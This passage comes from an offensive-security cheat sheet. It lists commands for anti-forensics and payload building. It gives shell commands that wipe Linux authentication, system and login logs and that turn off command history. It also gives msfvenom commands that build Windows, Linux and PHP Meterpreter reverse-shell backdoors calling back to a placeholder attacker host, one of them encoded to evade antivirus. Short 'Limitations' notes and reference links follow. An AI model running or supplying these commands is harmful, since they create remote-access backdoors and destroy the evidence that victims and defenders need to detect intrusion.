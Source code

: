 **Documentation**: Techniques for evading forensic analysis by manipulating Windows event logs.
**Limitations**: Log clearing is often detected; forensic tools may recover deleted logs.

### Linux Log Manipulation
```bash
# Log File Manipulation
> /var/log/auth.log                                     # Clear authentication log
> /var/log/secure                                       # Clear secure log (RHEL/CentOS)
> /var/log/syslog                                       # Clear system log

# History Manipulation
history -c                                              # Clear command history
unset HISTFILE                                          # Disable history logging
export HISTFILESIZE=0                                   # Set history file size to 0

# Utmp/Wtmp Manipulation
> /var/log/wtmp                                         # Clear login records
> /var/log/utmp                                         # Clear current login sessions
```

**Documentation**: Linux log manipulation techniques for hiding malicious activities.
**Limitations**: May be detected by log monitoring systems; forensic analysis may recover evidence.

# Payload Development and Deployment

## Metasploit Payload Generation
```bash
# Basic Payload Generation
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker LPORT=4444 -f exe -o backdoor.exe
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=attacker LPORT=4444 -f elf -o backdoor
msfvenom -p php/meterpreter_reverse_tcp LHOST=attacker LPORT=4444 -f raw -o backdoor.php

# Encoded Payloads (AV Evasion)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o encoded_backdoor.exe

# Custom Payloads
msfvenom --list payloads | grep meterpreter             # List available payloads
msfvenom --list encoders                                # List available encoders
msfvenom --list formats                                 # List output formats
```

**Documentation**: Automated payload generation for various platforms and scenarios.
**Limitations**: Generated payloads may be detected by modern AV; requires post-exploitation handler setup.

# Reference URLs and Research Papers:
- MITRE ATT&CK Framework: https://attack.mitre.org/
- NIST Cybersecurity Framework: https://www.nist.gov/cyberframework
- OWASP Testing Guide - Authentication: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/
- Windows Security Research: https://docs.microsoft.com/en-us/windows/security/
- Linux Security Documentation: https://www.kernel.org/doc/html/latest/admin-guide/security-bugs.html
- Research Paper: "Modern Binary Exploitation" - https://github.com/RPISEC/MBE
- Privilege Escalation Guide: https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/
- GTFOBins Project: https://gtfobins.github.io/

